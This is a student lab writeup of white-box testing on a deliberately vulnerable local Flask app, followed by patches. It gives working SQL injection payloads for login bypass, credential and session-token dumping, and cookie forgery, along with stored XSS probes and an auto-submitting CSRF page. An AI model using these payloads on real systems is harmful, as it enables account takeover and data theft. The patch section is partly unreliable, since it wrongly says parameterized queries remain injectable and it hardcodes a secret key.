 = Writeup
0x42697262; Orochi; Jinx
2024-02-24

## This Damned Vulnerable Snake!

Authors:

- 0x42697262
- Jinx
- Orochi

== TL;DR

[NOTE]
====
All of the CVEs listed here are hypothetical! 
They do not represent real world CVEs.        
====

=== Vulnerabilities Discovered

==== SQL Injection Authentication Bypass (aCVE-2024-0001)

[,sh]
----
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR TRUE --&password="
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION SELECT id FROM users; --&password="
----

==== Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)

Use these as the message:

> * ``<script>alert(document.domain)</script>``
> * ``<script>alert(window.origin)</script>``
> * ``1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--``
> * ``1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--``


==== Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)

[,sh]
----
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --" 
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=message=1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--"
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--"
curl -L 'http://0.0.0.0:5000/logout'  -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users --"
----

==== Cross-Site Request Forgery (aCVE-2024-0004)

Create ``malicious.html`` where a form calls the post method on an endpoint with an SQL injection as the message.

[,html]
----
<html>
<body>
    <h1>CSRF Payload</h1>
    <form id="csrfForm" action="http://127.0.0.1:5000/posts" method="POST">
        <input type="hidden" name="message" value="1&#39;, 1&#41;, ((SELECT GROUP_CONCAT(user || ':' || token, '&#8249;br>') FROM sessions), 1)--">
    </form>
    <script>
        // Automatically submit the form when the page loads
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
----

or

[,html]
----
 <html>
<body>
    <h1>CSRF Payload</h1>
    <form id="csrfForm" action="http://127.0.0.1:5000/posts" method="POST">
        <input type="hidden" name="message" value="1', 1&#41;, ((SELECT >GROUP_CONCAT(id || ',' || username || ':' || password, '&#8249;br>') FROM users), 1)--">
    </form>
    <script>
        // Automatically submit the form when the page loads
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
----

=== SUMMARY

The web server is vulnerable mostly to SQL injection attacks due to the incorrect implementation of SQL queries.
Which allows major vulnerabilities to be exploited.

However, this can easily be fixed by implementing input sanitization to prevent such attack.

Both CSRF and XSS attacks are also vulnerabilities of the web server however it is not as critical to SQL injection attacks.

All fixes to mitigating the vulnerabilities can be found in <<_patching_the_vulnerabilities>> portion of this writeup.


== Introduction

Another month, another machine problem.
However this time, we're diving into some white-box penetration testing, which means we have full access to the source code of the web server.

The instructions to install and run the server is already provided in the xref:random:cmsc134-writeups/machine-problem-3/sources.adoc#_readme_txt_from_mp3_zip[README.txt] (when xref:random:cmsc134-writeups/machine-problem-3/sources.adoc#_mp3_zip[mp3.zip] is extracted).
Please read and follow the instructions to setup the Python Flask web server.

Once the server is up and running, visit http://0.0.0.0:5000[] and be greeted with a remnant of the 90s internet web page login.
*Don't worry about its appearance.*
*It's ugly because there's no CSS, as intended.*

The database contains four tables: ``posts``, ``sessions``, ``users``, and ``sqlite_sequence``.
The last one is not needed.

> * ``posts`` contains user posts
> ** ``id`` as primary key
> ** ``message`` as text
> ** ``user`` as integer
> * ``sessions`` contains session tokens of an authenticated user
> ** ``id`` as primary key
> ** ``user`` as integer
> ** ``token`` as text
> * ``users`` contains username and password
> ** ``id`` as primary key
> ** ``username`` as text
> ** ``password`` as text

The ``sessions`` table has data containing

|===
|id |user |token

|7 |1 |e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65
|===

Similar to the ``users`` table

|===
|id |username |password

|1 |alice |12345678
|===

Then that's it.
That's the only thing that can be seen on the website without logging in.
There's no ``robots.txt`` because the web server is simple and small.

The mission of this machine problem?
It is to *find vulnerabilities* as much as possible and *exploit* them.

That is what we will be doing today!

[NOTE]
====
If using a web browser is annoying, use ``curl``.
====

[,sh]
----
curl -L 'http://0.0.0.0:5000'
----

And return an HTML login page.

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <form method="post" action="/login">
      <label for="username">Username</label>
      <input name="username" type="text" />
      <label for="password">Password</label>
      <input name="password" type="password" />
      <input type="submit" value="Login" />
    </form>
  </body>
</html>
----

== Exploitation

Since we have full access to the server already, there's no need to perform reconnaissance. 
But for the sake of knowing the endpoints of the server without needing to check the source code, we can run ``flask routes`` and this will show us the endponts

....
Endpoint  Methods    Rule                   
--------  ---------  -----------------------
home      GET        /home                  
home      GET        /                      
login     GET, POST  /login                 
logout    GET        /logout                
posts     POST       /posts                 
static    GET        /static/<path:filename>
....

I am guessing there are potential SQL injection, XSS, and CSRF attacks on the ``login``, ``logout``, and ``posts`` endpoints.

*Thus, let's head right into the explotation phase!*

First up is the login page.

.Login page
image::cmsc134-writeups/machine-problem-3/1_login.png[]

There is no need to *bruteforce* the login page as its vulnerability is obvious.

[IMPORTANT]
====
The web server is also vulnerable to bruteforce and denial-of-service attacks because of the severity of other vulnerabilities found.
====

Take a look at this code, it is possible to perform SQL injection to it.

[,python]
----
@app.route("/login", methods=["GET", "POST"])
def login():
  cur = con.cursor()
  if request.method == "GET":
    if request.cookies.get("session_token"):
      res = cur.execute("SELECT username FROM users INNER JOIN sessions ON " <.>
                          + "users.id = sessions.user WHERE sessions.token = '"
                          + request.cookies.get("session_token") + "'")
      user = res.fetchone()
      if user:
        return redirect("/home")

    return render_template("login.html")
  else:
    res = cur.execute("SELECT id from users WHERE username = '" <.>
                  + request.form["username"]
                  + "' AND password = '"
                  + request.form["password"] + "'")
    user = res.fetchone()
    if user:
      token = secrets.token_hex()
      cur.execute("INSERT INTO sessions (user, token) VALUES (" <.>
                  + str(user[0]) + ", '" + token + "');")
      con.commit()
      response = redirect("/home")
      response.set_cookie("session_token", token)
      return response
    else:
      return render_template("login.html", error="Invalid username and/or password!")
----
<.> 1st vulnerable sql injection
<.> 2nd vulnerable sql injection
<.> 3rd vulnerable sql injection

Notice that the flow of this code redirects to the homepage when a session is present but proceeds to the login page when one is not.

On the ``GET`` method request, the SQL code is vulnerable.
However, we won't be focusing on that.




=== SQL Injection Authentication Bypass (aCVE-2024-0001)

The simplest part is the ``POST`` request because even if we don't have full access to the source code, we can still conduct basic checks to determine if the server is vulnerable or not.

This part of the code can be exploited to bypass the login and allows us to use the first user index, usually admin or root in others.

[,python]
----
res = cur.execute("SELECT id from users WHERE username = '"
            + request.form["username"]
            + "' AND password = '"
            + request.form["password"] + "'")
----

To exploit this page, simply set the username to a SQL query that evaluates to ``TRUE``.

> - ``228922' OR 1=1 --``
> - ``228922' OR TRUE --``

.SQL Injection on the login page
image::cmsc134-writeups/machine-problem-3/2_login_sqlinject.png[]

This would get parsed by the sqlite3 handler as

[,sql]
----
SELECT id from users WHERE username = '228922' OR 1=1 -- AND password = ''
----

[NOTE]
====
``'`` is used instead of ``"`` because that's what the source code uses.
Otherwise, it's ``"``.
====

And we're in!
We should now be greeted with

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      No posts.
    </ul>
  </body>
</html>
----

And logged in as ``alice``.


.Bypassed login
image::cmsc134-writeups/machine-problem-3/3_alice.png[]

Unfortunately, the database only contains ``alice`` as the user (not even root or admin) and an unhashed password (which is very unsecure!!!).

Let's just call this *SQL Injection Authentication Bypass (aCVE-2024-0001)* as some sort of a tracker for this machine problem (of course this CVE doesn't exist irl, a joke btw).



To explain how this works, the original SQL statement looks for a ``username`` if it exists then proceeds to verify the ``password``.
But since we have modified the ``WHERE`` clause, it wouldn't matter if a username does not exist since it would always evaluate to ``TRUE``.

This would mean that the SQL parameter would be similar to ``SELECT id FROM users;`` then only fetch the first result.

Logging in as the first user is boring.

*_What if we try logging in on a specific user?_*

The same method is performed in executing a SQL injection.

[,sql]
----
' UNION select 24 from users; --
----

This would not work for now since there is only one user, but if a user with id 24 exists, it would login to that user without a password.

[,sql]
----
' UNION select 1 from users; --
----

Notice this line of code of the login function

[,python]
----
if user:
  token = secrets.token_hex()
  cur.execute("INSERT INTO sessions (user, token) VALUES ("
              + str(user[0]) + ", '" + token + "');")
  con.commit()
  response = redirect("/home")
  response.set_cookie("session_token", token) <.>
  return response
----
<.> Create session token for the user

A token is created every time a user successfully logs in.
In our case, when logging in as another user (existent or non-existent), it still creates a session token.

We can try retrieving all of the session tokens or username and passwords by dumping the database.
See the next aCVE.



=== Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)

Neat!
We are now greeted with yet another ugly HTML home page.

This home page have two HTTP request methods, a *GET* method for logging out the user (potential CSRF) and a *POST* method for storing posts on the user's home page (potential for Stored XSS).

Let's see if the server is vulnerable to XSS.
We can test that by using a Javascript code (just pick one)

> * ``<script>alert(window.origin)</script>``
> * ``<script>alert(document.domain)</script>``

and post!

.Stored XSS
image::cmsc134-writeups/machine-problem-3/4_xss.png[]


We got ourselves a Stored XSS!
However, is it a vulnerability?
Let's see the results of the returned home page

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      <li><script>alert(window.origin)</script></li> <.>
    </ul>
  </body>
</html>
----
<.> Our message got stored as XSS!

The ``body`` now contains a list of messages and right there is our Javascript code that will execute everytime the page is loaded.

The alert message should pop up ``http://0.0.0.0:5000`` if it is vulnerable to XSS.
Otherwise, it would return ``null`` if it is not vulnerable to XSS due to sandboxing mechanism implemented by the server.

Thus, another vulnerability is spotted!

But wait, there's more.
The source code of the server is also *vulnerable to SQL Injection*!

[,python]
----
@app.route("/posts", methods=["POST"])
def posts():
  cur = con.cursor()
  if request.cookies.get("session_token"):
    res = cur.execute("SELECT users.id, username FROM users INNER JOIN sessions ON "
                          + "users.id = sessions.user WHERE sessions.token = '"
                          + request.cookies.get("session_token") + "';")
    user = res.fetchone()
    if user:
      cur.execute("INSERT INTO posts (message, user) VALUES ('" <.>
                        + request.form["message"] + "', " + str(user[0]) + ");")
      con.commit()
      return redirect("/home")
    return redirect("/login", error="test")
----
<.> We can dump the database through this

In the SQL query ``INSERT INTO posts (message, user) VALUES ('...``, it is possible to dump the session tokens or even the username and password!

This can be done by crafting the ``message``

[,sql]
----
1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--
----

And once executed, this should return the home page with its posts.

.Dumping User Login and Password
image::cmsc134-writeups/machine-problem-3/5_xss_sqlinjection.png[]

[,html]
----
...
<li>1</li>
<li>1,alice:12345678</li>
...
----

And boom!
*We are able to grab ``alice``'s password!*
And other users as well if they exists.

Since we're able to grab the username and password, there's no need for the session tokens, right?
Nah, we're still gonna do it.

[,sql]
----
1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--
----

And we're able to grab all the user sessions!

.Dumping User Session Tokens
image::cmsc134-writeups/machine-problem-3/6_xss_2.png[]

[,html]
----
<li>1</li>
<li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
----

Let's call this Vulnerability as *Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)*.

To explain how this works, the original SQL query takes a valid input message and passes it to the sqlite3 handler.

[,sql]
----
INSERT INTO posts (message, user) VALUES ('<script>alert(document.domain)</script>', 1);
----

However, since we have replaced the ``message`` with injected SQL query, it would now look like this

[,sql]
----
INSERT INTO posts (message, user) VALUES ('1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1); -- ', 1);
----

This will first insert the message ``1`` into *user 1* and then insert the SQL query of concatenating the results of users and tokens resulting to dumping the users and tokens.

Similarly, this works for dumping the username and password.

The scary thing about this vulnerability is that we can post a message on another user!
This can be done by simply changing the user ID to another user (doesn't matter if it does not exist).

[,sql]
----
1', 69), ("I know you read 228922", 69) --
----

This will get inserted to the database on user 69.


.Posting on Another User
image::cmsc134-writeups/machine-problem-3/7_xss_3.png[]




=== Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)

Okay, bypassing the login page and then able to post a message on another user requires a bit more of an effort.
*Why not just bypass the session token instead?*

The web server is vulnerable to SQL injection, all of the SQL parameters are vulnerable to it.
Thus with this context, let us try _*posting as another user without logging in!*_

Session tokens are important for user authentication.
Usually, they are stored as a *cookie* to the web browser and it gets passed to an HTTP request method.

Forging the session token might need a different tool or simply modify the cookie itself in the web browser.

The web server uses ``session_token`` which is evident in the source code ``request.cookies.get("session_token")``.

Modifying the session token in the web browser is tad a bit annoying.
I like to do it with ``curl`` instead (or use Burpsuite if you want to).

A legitimate GET request with the session token looks like this using curl

[,bash]
----
curl -L 'http://0.0.0.0:5000/' -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65"
----

Assuming that the session token exists, this would return the home page of the user.

[NOTE]
====
This actually exists in the database provided by the machine problem.
====

.Example Using curl
image::cmsc134-writeups/machine-problem-3/8_curl.png[]


[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
  </body>
</html>
----

We can now make a POST request with similar method

[,bash]
----
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65" --data-raw 'message=Breasts or Thighs? Which contains more meat? For a value meal.'
----

And running the GET request curl command once again will output

.Posting with curl
image::cmsc134-writeups/machine-problem-3/9_curl2.png[]

[,html]
----
...
<ul>
  <li>Breasts or Thighs? Which contains more meat? For a value meal.</li>
</ul>
...
----

That's basically it.
Next is attacking the session token cookie.

On the assumption that a user ID exists, forging a session token is performed this way

```bash
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT 1 as id, 'random_name' as username FROM users LIMIT 1 --" 
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --" 
```

.Session Token Bypass
image::cmsc134-writeups/machine-problem-3/10_session_bypass.png[]

And we're in.

This vulnerability is dubbed as **Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)**.

As to how this works, a legitimate SQL query appears as

[,sql]
----
SELECT users.id, username
FROM users
INNER JOIN sessions
ON users.id = sessions.user
WHERE sessions.token = 'e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65';
----

which is found in

[,python]
----
res = cur.execute("SELECT users.id, username FROM users INNER JOIN sessions ON "
    + "users.id = sessions.user WHERE sessions.token = '"
    + request.cookies.get("session_token") + "';")
user = res.fetchone()
----

This would return a list of users with that session token, and the first index is taken as the user.

The result of the SQL query is

....
(1,alice)
....

However, this following code only checks and uses the user ID

[,python]
----
if user:
  cur.execute("INSERT INTO posts (message, user) VALUES ('"
    + request.form["message"] + "', " + str(user[0]) + ");")
----

ignoring the name of the user.

This allows us to forge a session token with random names for any given user (even those that doesn't exists).

*Since this vulnerability exists throughout the source code, it also serves as a means to post as another user without knowing their password!*
The attack is crafted this way

[,bash]
----
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT 1 as id, 'doyou' as username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
----

And checking the posts

[,bash]
----
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT 1 as id, '' as username FROM users LIMIT 1 --" 
----

the output is

[,html]
----
...
<li>Breasts or Thighs? Which contains more meat? For a value meal.</li>
<li>alice watches 228922</li>
...
----

_*This is a serious concern...*_

It is also possible to force a user to logout of their session (equivalent to deleting the session tokens in the database)

[,bash]
----
curl -L 'http://0.0.0.0:5000/logout' -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users--"
----

This vulnerability might give a hint to CSRF (Cross-Site Request Forgery) attack.





=== Cross-Site Request Forgery (aCVE-2024-0004)

Earlier, we were talking about using the attacker's own machines and the server database to commit cyber attacks to the website.

But, there is a way to make the user perform the attack themselves.

With the use of a malicious website, the attacker can trick the user to perform the attack by clicking on a link or inputting something in the site.
This bypasses the security made by the website by utilizing the trust of the website to the user's browser and its authenticity.

The attack is done by making a simple website like this:

[,html]
----
 <html>
<body>
    <h1>CSRF Payload</h1>
</body>
</html>
----

Then the attacker adds a form or a button with an action that references to the API endpoint and specifies the method.

[,html]
----
<form id="csrfForm" action="http://127.0.0.1:5000/posts" method="POST">
</form>
----

If the attackers choose the form method, the attacker will add an input with the value of the SQL query to be run inside the API endpoint.

[,html]
----
<input type="hidden" name="message" value="1&#39;, 1&#41;, ((SELECT GROUP_CONCAT(user || ':' || token, '&#8249;br>') FROM sessions), 1)--">
----

The attacker may also choose to add a script that auto submits the form when the page is loaded.

[,]
----
<script>
   document.getElementById('csrfForm').submit();
</script>
----

The SQL queries used in the example above is simply the SQL injection queries introduced before.


== Patching the vulnerabilities

So this is how attackers may easily access and manipulate the data inside your website.

You may ask the question, how do we fix these security vulnerabilities?

We patch them, of course! Using various security tricks and methods, we are able to secure our website against these malicious attacks.

To combat SQL injections, we changed how we pass values into the SQL queries from concatenation into input parametization, as shown below:

[,python]
----
res = cur.execute("SELECT id from users WHERE username = '"
            + request.form["username"]
            + "' AND password = '"
            + request.form["password"] + "'")
----

into

[,python]
----
res = cur.execute("SELECT id from users WHERE username = ? AND password = ?", (request.form["username"], request.form["password"]))
----

This makes it so that each *?* needs to have a value to succeed, and just inputting one value will just send an error.

But this still has some flaws.

Both input fields are still able to be inputted with SQL injections, which makes it not that secure.

Example of this would be the SQL Injection to access Alice's account.

[,sql]
----
"username=' UNION SELECT id FROM users; --&password="
----


We can implement character limitations and exclude special characters in the input fields for the login to combat this.

An example for this input validator would be something like this:

[,python]
----
def input_validation(data):
    for elem in data:
        if elem == "session_token":
            val = request.cookies.get(elem)
            if ' ' in val or '--' in val or len(val) == 0:
                return False
        elif elem != "message":
            val = request.form[elem]
            if ' ' in val or len(val) == 0:
                return False
    return True
----

But how about when posting a comment? We cannot limit the users from using special characters or have a short limit on characters when commenting.

So what can we do?

Well, still remember the input parametization? It solves the problem of the post message by itself, so there is no worry about that.

XSS attacks, on the other hand, is still a problem, as it can be passed through the input parametization without any issues.

So we implement a tag cleaner for HTML tags using a function ``clean`` from the library ``bleach``.

[,python]
----
from bleach import clean
----

We simply using the ``clean`` function on the input message before running the ``INSERT`` SQL:

[,python]
----
sanitized_input = clean(request.form["message"], tags=[], attributes={})
            cur.execute("INSERT INTO posts (message, user) VALUES (?,?);",
                        (sanitized_input, str(user[0])))
----

So we fixed the login and post problems within the website. But another problem in the code is the CRSF attack using another malicious website.

We cannot use input parametization nor input cleaning to patch this vulnerability. So we use the good 'ol CRSF token that is passed together when posting a message.

To implement this security measure, we need to use the library ``hashlib`` and the modules ``session`` and ``abort`` in the ``Flask`` library.

[,python]
----
import hashlib
from flask import session, abort
----

Then, we need to create a secret key for our application, something like this:

[,python]
----
app.secret_key = b'_5#y2L"F4Q8z\n\xec]/'
----

We also create a function to generate the CRSF function to be used:

[,python]
----
def generate_csrf_token():
   if 'csrf_token' not in session:
        session['csrf_token'] = hashlib.sha256(secrets.token_bytes(32)).hexdigest()
   return session['csrf_token']
----

To implement this in our ``/posts`` endpoint, we add a CRSF validator before we apply ``INSERT``:

[,python]
----
if user:
        if request.form.get('csrf_token') != session.pop('csrf_token', None):
             abort(403)
           
        cur.execute("INSERT INTO posts (message, user) VALUES (?,?);",
                     (request.form["message"], str(user[0])))
        con.commit()
        return redirect("/home")
----

Voila! We prevented CRSF attacks using this CRSF token security measure.

[IMPORTANT]
====
*You can download the patched source code of the web server xref:attachment$cmsc134-writeups/machine-problem-3/patched.tar.xz[here].*
====

== Writeups from other people

* https://sycasec.github.io/sycasec/post/mp3[sycasec's writeup]
* https://hackmd.io/@Kiyent/ryAW4SifC[kiyent's writeup using burpsuite]
* https://hackmd.io/@gebmecod/Hyfji9hG0[gebmecod's writeup]
